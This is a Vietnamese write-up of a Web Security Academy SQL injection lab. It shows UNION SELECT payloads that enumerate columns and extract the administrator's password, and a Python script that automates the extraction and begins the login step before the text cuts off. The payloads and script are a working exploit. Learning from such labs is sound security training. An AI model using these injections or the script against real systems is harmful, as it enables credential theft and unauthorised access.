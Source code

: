 ### Khai thác

- mình kiểm tra số cột của bảng với Payload: `/filter?category=' UNION SELECT NULL, NULL--`
- ![image](https://hackmd.io/_uploads/SJx02un5T.png)

Như vậy câu lệnh truy vấn trả về 2 cột dữ liệu. Tiếp theo tìm kiếm cột dữ liệu tương thích với kiểu string. Payload `/filter?category=' UNION SELECT 'column1', 'column2'--`

![image](https://hackmd.io/_uploads/SkkQadn5a.png)

- Cả 2 cột đều có thể tận dụng để hiển thị thông tin khai thác. Do chúng ta đã biết tên bảng cần khai thác là users cũng với hai cột có tên là username và password, thông tin người dùng cần khai thác có username là administrator, nên ta có thể xây dựng payload như sau:`/filter?category=' UNION SELECT password, NULL FROM users WHERE username = 'administrator'--`

![image](https://hackmd.io/_uploads/SJHkJKhqa.png)

và mình nhận được mật khẩu là **wnat2rywwgtzwcyzeoyo**

Đăng nhập với tài khoản **administrator:wnat2rywwgtzwcyzeoyo**, bài lab hoàn thành:

mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a3400b30314a17886c5a3f4002a0032.web-security-academy.net'

session = requests.Session()

# xác định số cột
for x in range(20):
    test_column = "' UNION SELECT " + "NULL," * x + "NULL-- "
    params = {'category' : test_column,}
    response = session.get(url + "/filter",params=params,verify=False,)
    if(response.status_code == 200):
        print("bảng có số cột là: ", (x+1))
        break

payload = "' UNION SELECT password, NULL FROM users WHERE username = 'administrator'--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)
pattern = r"\b\w{20}\b"
match = re.search(pattern, response.text)
password = match.group()

response = session.get(
    url + "/login",
    verify=False,
)
soup = BeautifulSoup(response.text,'html.parser')
csrf= soup.find('input', {'name': 'csrf'})['value']
data= {
    'username' : 'administrator',
```